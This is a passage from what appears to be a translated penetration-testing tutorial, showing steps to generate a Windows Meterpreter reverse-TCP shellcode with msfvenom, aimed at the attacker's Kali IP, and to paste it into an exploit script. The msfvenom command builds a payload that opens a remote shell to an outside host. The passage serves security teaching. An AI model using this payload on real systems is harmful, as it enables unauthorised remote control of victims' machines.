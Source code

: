 4.  So we will have to first edit the code and point the payload that we want to execute to our IP address and port. In order to do so we will have to make use of `msfvenom` to create our payload so that we can get this script to execute. Enter the following command on the Kali terminal to create a Python shell code for reverse connection to the Kali IP:

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
    Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
    x2ex40" -f python -a x86

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_045.jpg)

5.  Please note the payload created is 380 bytes. Copy the entire "buf" line that is generated and paste it in a file, rename the word `buf` with `shellcode`, since the script we are using makes use of the word `shellcode` for payload delivery. The text file would look like this:
